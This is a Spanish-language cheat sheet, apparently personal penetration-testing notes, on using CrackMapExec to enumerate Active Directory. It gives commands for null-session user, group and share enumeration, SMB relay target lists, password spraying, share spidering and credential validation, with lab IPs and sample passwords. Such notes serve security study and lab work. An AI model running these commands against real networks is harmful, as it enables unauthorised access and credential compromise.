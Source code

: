# Info

Crackmapexec es una herramienta completa para enumerar AD.

Podemos ver los distintos protocolos que soporta con el help (-h) y tenemos un menú aparte de ayuda para cada protocolo si lo nombramos 

    crackmapexec <prot> -h

Para exportar podemos usar la función export pero está buggeada así que lo resolveríamos agregando el fullpath o

    --export $(pwd)/export.txt

### Recordar siempre probar los users como local account si no encontramos nada como cuentas de dominio

    --local-auth



---

# Enumeración

## Sin Credenciales

### Enumerar los HOST e información de los mismos dentro de una red

    crackmapexec smb 192.168.133.0/24

### Generar una lista con todos los HOST vulnerables a SMBRelay

    crackmapexec smb 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt

### Abusando de los Null Session

##### Enumerar users del dominio
    crackmapexec smb 10.129.203.121 -u '' -p '' --users --export $(pwd)/users.txt

Luego transformamos lo extraido en una lista

    sed -i "s/'/\"/g" users.txt && jq -r '.[]' users.txt > userslist.txt

Si jq no funciona:

    awk '
    BEGIN { RS=""; FS="\n" }
    {
        print "{"
        for (i=1; i<=NF; i++) {
            line = $i
            sub(/^[ \t]+/, "", line)
            key = substr(line, 1, index(line, ":") - 1)
            value = substr(line, index(line, ":") + 1)
            gsub(/^ +| +$/, "", key)
            gsub(/^ +| +$/, "", value)
            gsub(/"/, "\\\"", value)
            printf("  \"%s\": \"%s\"", key, value)
            if (i < NF) print ","; else print ""
        }
        print "},"
    }
    ' users.txt | sed '$s/},/}/' > users.json

Luego

    grep '"samaccountname"' users.json | cut -d'"' -f4 > userslist.txt

    
##### Enumerar grupos del dominio

    crackmapexec smb 10.129.203.121 -u '' -p '' --groups
##### Enumerar carpetas compartidas
    crackmapexec smb 10.129.203.121 -u guest -p '' --shares
##### Enumerar Password Policy
    crackmapexec smb 10.129.203.121 -u '' -p '' --pass-pol

### Password spraying

    crackmapexec smb 10.129.203.121 -u users.txt -p Welcome1 --continue-on-success


--- 

## Con credenciales
### Enumeración de usuarios:

    sudo crackmapexec smb <ip_DC> -u <user> -p <pass> --users --export $(pwd)/users.txt

Luego transformamos lo extraido en una lista

    sed -i "s/'/\"/g" users.txt && jq -r '.[]' users.txt > userslist.txt

### Enumeración de grupos de dominio:
    sudo crackmapexec smb <ip_DC> -u <user> -p <pass> --groups

### Ver usuarios loggeados en otros hosts:

    sudo crackmapexec smb <ip_host> -u forend -p Klmcargo2 --loggedon-users

si el usuario con el que nos logueamos dice **(Pwn3d!)** quiere decir que es admin en ese host

### Enumerar shares en un host:
    sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares

podemos luego hacer un spidering a los shares que por lo menos tengan permiso de lectura


    sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'NOMBRE DEL SHARE'


Luego de hacer un spidering, se guardará un archivo con json de todo lo encontrado en:

    /tmp/cme_spider_plus/<ip of host>


Probar un rango de hosts buscando logins con users:

    crackmapexec winrm 192.168.110.0/24 -u riley -p P@ssw0rd

### Probar si las contraseñas de varios usuarios siguen vigentes:
Creamos dos archivos: uno con los users y otro con los passwords en orden lógico(misma posición de un user con su password en cada archivo)

    crackmapexec smb 10.129.203.121 -u users.txt -p pass.txt --no-bruteforce --continue-on-success

